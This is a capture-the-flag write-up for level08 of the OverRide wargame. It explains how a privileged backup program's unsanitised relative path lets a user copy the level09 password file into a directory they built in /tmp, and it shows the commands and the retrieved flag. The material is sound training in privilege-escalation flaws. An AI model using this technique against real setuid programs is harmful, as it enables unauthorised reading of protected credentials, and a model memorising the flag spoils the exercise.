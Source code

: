 # Level08 Exploit

## Steps

### 1. Program Behavior

Run the program to observe its behavior:

```bash
level08@OverRide:~$ ./level08
Usage: ./level08 filename
level08@OverRide:~$ ./level08 /home/users/level09/.pass
ERROR: Failed to open ./backups//home/users/level09/.pass
```

### 2. Vulnerability Discovery

The program attempts to create a backup of the given file but doesn't properly sanitize the input path. It prepends "./backups/" to the given filename.

### 3. Exploiting the Vulnerability

Create the necessary directory structure in /tmp:

```bash
level08@OverRide:~$ cd /tmp
level08@OverRide:/tmp$ mkdir -p backups/home/users/level09
```

### 4. Executing the Exploit

Run the program from /tmp, specifying the target file:

```bash
level08@OverRide:/tmp$ ~/level08 /home/users/level09/.pass
```

### 5. Accessing the Next Level

Retrieve the password from the created backup:

```bash
level08@OverRide:/tmp$ cat backups/home/users/level09/.pass
fjAwpJNs2vvkFLRebEvAQ2hFZ4uQBWfHRsP62d8S
```

## Explanation

This exploit takes advantage of the program's lack of path sanitization. By creating a mirror of the expected directory structure in /tmp, we trick the program into copying the password file to a location we can access. The program runs with elevated privileges, allowing it to read the target file, and then creates a backup in our accessible location.